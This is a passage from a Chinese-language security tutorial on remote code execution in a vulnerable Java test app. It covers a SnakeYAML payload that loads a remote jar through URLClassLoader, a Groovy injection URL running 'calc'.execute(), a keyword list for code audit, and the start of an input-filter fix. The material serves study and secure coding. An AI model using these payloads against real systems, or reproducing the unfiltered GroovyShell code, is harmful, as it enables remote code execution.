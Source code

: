 
拼接后url

    http://localhost:8080/rce/vuln/yarm?content=!!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://localhost/yaml-payload.jar"]
      ]]
    ]
    

![图片.png](https://image.cubox.pro/article/2022103016293217686/45125.jpg)

## groovy

Groovy是一种基于JVM（Java虚拟机）的敏捷开发语言，它结合了Python、Ruby和Smalltalk的许多强大的特性，Groovy 代码能够与Java 代码很好地结合，也能用于扩展现有代码

    Groovy语法：
    https://www.w3cschool.cn/groovy/
    

访问url为[http://localhost:8080/rce/groovy?](http://localhost:8080/rce/groovy?)content='calc'.execute()-
GroovyShell可动态运行groovy语言，也可以用于命令执行，如果用户的输入不加以过滤会导致rce。

    public void groovyshell(String content) {
    	GroovyShell groovyShell = new GroovyShell();
    	groovyShell.evaluate(content);
    }
    

![图片.png](https://image.cubox.pro/article/2022103016293234414/96495.jpg)

## 总结

    全局搜索有以下关键字，需注重
    Runtime     StringBuilder     ScriptEngineManager     Yaml    GroovyShell
    

## 修复

### codeinject/sec

这里给出了codeinject的修复版本，利用SecurityUtil.cmdFilter来对传入的参数进行过滤，严格限制用户输入只能包含a-zA-Z0-9\_-.字符。

    private static final Pattern FILTER_PATTERN=Pattern.compile("^[a-zA-Z0-9_/\\.-]+$");
    	public static String cmdFilter(String input) {
    		if (!FILTER_PATTERN.matcher(input).matches()) {
    		return null;
    	}
    	return input;